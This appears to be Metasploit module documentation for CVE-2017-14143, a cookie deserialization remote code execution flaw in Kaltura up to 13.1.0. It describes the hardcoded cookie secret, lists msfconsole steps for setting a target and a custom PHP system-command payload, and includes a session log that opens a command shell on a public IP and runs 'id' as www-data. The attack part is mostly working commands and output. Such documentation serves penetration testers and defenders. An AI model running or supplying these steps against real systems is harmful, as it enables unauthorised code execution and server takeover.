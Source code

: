 ## Description 

The getUserzoneCookie function in Kaltura before 13.2.0 uses a hardcoded cookie secret to validate cookie signatures, which allows remote attackers to bypass an intended protection mechanism and consequently conduct PHP object injection attacks and execute arbitrary PHP code via a crafted userzone cookie. 
 

## Vulnerable Application

 This module exploits a remote code execution within the Kaltura(<=13.1.0) via a cookie deserialization.
 Vulnerability reference- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14143.
 Installation of Kaltura is difficult, but here is an installation guide:
 https://github.com/kaltura/platform-install-packages/blob/Mercury-13.8.0/doc/install-kaltura-deb-based.md


## Verification Steps

 1. Start msfconsole
 2. `use exploit/linux/http/kaltura_unserialize_cookie_rce`
 3. `set RHOST https://example.com (or IP address)`
 4. `set ENTRYID 0_xxxxxxxx`
 5. `set payload generic/custom`
 6. `set payloadstr "system('command you want to execute, eg.- ls -la');"`
 7. `run`

## Scenarios

 ```
 msf use exploits/linux/http/kaltura_unserialize_cookie_rce
 msf exploit(kalkutra_unseialize_cookie_rce) set RHOST 46.101.209.202
 RHOST => 46.101.209.202
 msf exploit(kalkutra_unseialize_cookie_rce) set LHOST 192.168.1.16
 LHOST => 192.168.1.16
 msf exploit(kalkutra_unseialize_cookie_rce)>check
 [+] 46.101.209.202:4444 The target is vulnerable.
 msf exploit(kalkutra_unseialize_cookie_rce)>run
 [*] Started bind handler
 [*] Output:
 [*] Command shell session 1 opened (192.168.1.16:36865 -> 46.101.209.202:4444) at 2017-09-04 12:09:03 +0200

 id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

